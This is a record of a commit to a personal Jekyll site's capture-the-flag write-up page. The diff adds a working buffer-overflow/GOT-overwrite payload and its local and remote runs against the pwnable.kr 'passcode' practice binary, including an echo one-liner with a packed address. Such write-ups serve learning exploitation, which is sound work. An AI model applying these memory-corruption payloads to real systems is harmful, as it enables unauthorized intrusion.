

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 25417 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -1039,8 +1039,24 @@ So we input:
 ```python
 from pwn import p32
 import sys
-payload = b'A'*96 + p32(0x804a004) + b'134514147\n'
+payload = b'A'*96 + p32(0x804a004) + b'134514147'
 sys.stdout.buffer.write(payload)
+```
+
+```
+$ python3 payload.py | ./passcode
+Toddler's Secure Login System 1.0 beta.
+enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
+/bin/cat: flag: No such file or directory
+```
+
+Nice, now for the remote:
+
+```
+passcode@pwnable:~$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04\xa0\x04\x08134514147" | ./passcode
+Toddler's Secure Login System 1.0 beta.
+enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
+Sorry mom.. I got confused about scanf usage :(
 ```
 
 <br>
````
